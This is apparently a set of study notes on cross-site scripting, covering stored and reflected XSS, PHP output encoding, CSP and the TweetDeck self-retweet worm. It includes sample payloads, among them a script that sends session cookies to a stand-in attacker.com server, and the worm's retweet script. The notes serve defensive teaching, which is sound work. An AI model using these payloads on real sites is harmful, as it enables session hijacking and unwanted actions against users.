 > [!motivation] The Dangers of Cross-Site Scripting (XSS)
>
> Cross-Site Scripting (XSS) is a prevalent security vulnerability in web applications, where an **attacker injects malicious scripts into web pages viewed by other users**. This type of attack leverages the trust a user has for a particular site, turning benign web pages into vehicles for delivering harmful scripts.

> [!idea] Understanding Stored XSS
>
> Stored Cross-Site Scripting (Stored XSS) occurs when malicious scripts are injected directly into a website's database through user inputs that are not adequately sanitized. These scripts are then delivered to other users' browsers when they access the compromised data.
>
> - **Persistence**: The malicious script persists in the database, affecting multiple users over time.
> - **Scope of Attack**: Can impact any user who accesses the data containing the script.
> - **Mitigation**: Requires stringent input validation and output encoding to prevent and neutralize these attacks.

> [!example] Example of Stored XSS Attack
>
> Consider a user who submits a comment on a blog post with the following malicious JavaScript embedded: `<script>alert('XSS');</script>`. If the comment is stored as-is in the database and then displayed to other users without sanitization, it executes the script in every visitor's browser, potentially leading to wider exploitation.

> [!idea] Exploring Reflected XSS
>
> Reflected Cross-Site Scripting (Reflected XSS) involves injecting a script into a web application that reflects the malicious script back to the user's browser as part of an immediate response. It typically occurs through URL parameters, form inputs, or any other data sent to the server that is then echoed back in the response.
>
> - **Immediate Execution**: The script does not persist in the database but is executed immediately in the user's browser.
> - **Social Engineering**: Often requires tricking a user into clicking a specially crafted link containing the malicious script.
> - **Prevention**: Focuses on validating and encoding user inputs and URL parameters to avoid executing untrusted scripts.

> [!example] Example of Reflected XSS Attack
>
> A user clicks on a link like `http://example.com/search?query=<script>alert('XSS');</script>`. The search term is reflected in the response without sanitization, causing the script to execute in the user's browser. This illustrates how attackers use social engineering to execute their scripts.

> [!consider] Stored vs. Reflected XSS
>
> - **Stored XSS**: Involves malicious scripts that are permanently stored on the server (e.g., in a database) and executed in multiple users' browsers when the stored data is displayed. This type of XSS is particularly harmful as it can affect many users over time. Mitigation includes thorough sanitization of stored data.
>
> - **Reflected XSS**: Occurs when a user's input is immediately returned by web applications without proper sanitization and displayed in the user's browser, executing malicious scripts. This form usually affects the user who sends the input and often requires social engineering to initiate. Preventing this involves real-time sanitization of inputs and outputs.

> [!idea] XSS Defense Strategies
>
> Protecting against XSS requires a multifaceted approach that includes validating user inputs, encoding outputs, using secure frameworks, and implementing strong Content Security Policies (CSP).
>
> - **Input Validation**: Ensure all inputs are checked and sanitized to prevent malicious data entry.
> - **Output Encoding**: Encode data before displaying it to users to neutralize potentially harmful scripts.
> - **Use of Frameworks**: Employ frameworks and libraries that automatically handle some aspects of XSS prevention.


> [!example] Preventing XSS in PHP
>
> To effectively prevent XSS attacks, user input must be sanitized before it is rendered on the web page. Below are examples of how a specific input is transformed using PHP's sanitization functions.
>
> **Before Sanitization:**
> User input: `<script>alert('XSS');</script>`
>
> **PHP Code Before Sanitization:**
> ```php
> // Displaying user input directly
> echo $_POST['user_input'];
> ```
> This will execute the JavaScript and show an alert if `user_input` is `<script>alert('XSS');</script>`.
>
> **After Sanitization Using `htmlspecialchars`:**
> **PHP Code After Sanitization:**
> ```php
> // Sanitizing user input to prevent XSS
> $safe_input = htmlspecialchars($_POST['user_input'], ENT_QUOTES, 'UTF-8');
> echo $safe_input;
> ```
> With this sanitized input, the output in HTML will be: `&lt;script&gt;alert('XSS');&lt;/script&gt;`, which is rendered as text rather than being executed as JavaScript. This approach prevents the script from running and neutralizes the XSS threat.



> [!idea] How XSS Attacks Facilitate Session Hijacking via Cookie Theft
>
> Cross-Site Scripting (XSS) can enable session hijacking by allowing attackers to inject scripts that covertly steal session cookies and send them to a malicious server. This attack bypasses the need for direct user interaction, making it harder to detect.
>
> - **Mechanism**: Attackers leverage XSS vulnerabilities to inject a script that accesses the session cookie and sends it to their server using an AJAX POST request. This approach keeps the user on the original page, maintaining the illusion of security.
> - **Impact**: Once the attacker obtains the session cookie, they can use it to impersonate the victim, accessing their account and sensitive data.
> - **Example**: An attacker injects the following script into a vulnerable web application:
>   ```javascript
>   var xhr = new XMLHttpRequest();
>   xhr.open("POST", "http://attacker.com/steal", true);
>   xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>   xhr.send("session=" + encodeURIComponent(document.cookie));
>   ```
>   This script creates an XMLHttpRequest to send the session cookie to the attacker's server without disrupting the user's experience, effectively hijacking the session.



> [!consider] Preventing Session Hijacking
>
> Session hijacking is often a consequence of successful XSS attacks. To mitigate this risk:
>
> - **Use Secure Cookies**: Set the `HttpOnly` and `Secure` flags on cookies to prevent access by client-side scripts.
> - **Implement HTTPS**: Ensure all communications are encrypted, reducing the risk of session token interception.

> [!idea] Implementing Content Security Policy (CSP)
>
> A Content Security Policy (CSP) is a powerful tool for preventing XSS by restricting the sources from which scripts can be loaded. CSP helps in specifying which domains are trusted, reducing the risk of executing malicious scripts.
>
> - **Directive Configuration**: Use directives like `script-src`, `style-src`, and `default-src` to control resource loading.
> - **Nonce Usage**: Employ nonces to allow specific scripts to run while blocking others.

> [!example] Real Example: Self-Retweeting Tweet in TweetDeck
>
> The XSS attack that affected TweetDeck used the following JavaScript snippet embedded in a tweet:
>
> ```html
> <script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweetdeck')</script>♥
> ```
>
> - **Targeting the Script Element**: `$('.xss')` selects the `<script>` element itself using its class name 'xss'.
> - **Navigating the DOM**: `$('.xss').parents().eq(1)` navigates up the DOM to find the parent element of the `<script>` tag. This is typically a container like a `<div>` or `<span>` that contains the tweet.
> - **Finding and Clicking a Link**: `.find('a').eq(1).click();` looks for the second link within this parent container and simulates a click. This step could be designed to interact with other parts of the TweetDeck interface or to trigger additional actions like navigating or opening links.
> - **Triggering the Retweet**: `$('[data-action=retweet]').click();` specifically targets elements (usually buttons) with a `data-action` attribute set to 'retweet' and simulates a click, which causes the tweet to retweet itself.
> - **Alerting the User**: `alert('XSS in Tweetdeck')` then pops up an alert box, providing feedback that the XSS script executed, serving as a proof of concept for the attacker.

